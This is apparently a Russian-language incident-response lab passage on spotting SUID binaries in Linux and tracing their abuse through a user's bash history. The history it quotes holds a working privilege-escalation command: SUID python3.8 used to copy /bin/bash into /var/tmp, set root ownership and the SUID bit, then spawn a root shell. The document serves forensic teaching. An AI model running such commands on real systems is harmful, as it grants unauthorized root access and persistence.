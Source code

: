 Идентификация двоичных файлов SetUID (SUID) в системе Linux включает проверку прав доступа к файлам и явный поиск 
исполняемых файлов с установленным битом SetUID. Мы можем вернуться к findкоманде для получения списка двоичных 
файлов SetUID в системе:  

Список двоичных файлов SUID с помощью find
```commandline
investigator@MACHINE_IP:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/fusermount
/usr/bin/python3.8
/usr/bin/at
/usr/bin/mount
/var/tmp/bash
/mnt/usb/lib/dbus-1.0/dbus-daemon-launch-helper
...
```
В частности, приведенная выше команда ищет файлы, в которых для разрешения пользователя установлен бит SUID ( -u=s).

Большая часть вывода здесь ожидаема, так как эти двоичные файлы требуют бит SUID и не уязвимы. Однако два из этих 
результатов выделяются. Во-первых, Python никогда не следует давать разрешение SUID, так как повысить привилегии до 
владельца несложно. Кроме того, любые двоичные файлы SUID в каталоге /tmpили /var/tmpвыделяются, так как эти 
каталоги обычно доступны для записи всем пользователям, и несанкционированное создание двоичных файлов SUID в этих 
каталогах представляет значительный риск.

Мы можем провести дальнейшее исследование, просмотрев историю bash Джейн на предмет команд, связанных с Python или bash:

Корреляция злоупотреблений SUID в bash_history
```commandline
investigator@MACHINE_IP:~$ sudo cat /home/jane/.bash_history | grep -B 2 -A 2 "python"
ls -al
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
ls -al /var/tmp
/var/tmp/bash -p
exit
```

Из выходных данных мы обнаружили доказательства того, что учетная запись пользователя Джейн идентифицировала 
двоичные файлы SUID с помощью команды findи злоупотребляла разрешением SUID на двоичный файл Python для запуска 
системных команд от имени пользователя root. С помощью этого уровня выполнения команд злоумышленник смог создать 
копию двоичного файла /bin/bash(исполняемый файл оболочки Bash) и поместить ее в /var/tmpпапку. Кроме того, 
злоумышленник изменил владельца этого файла на root и добавил к нему разрешение SUID ( chmod +s).
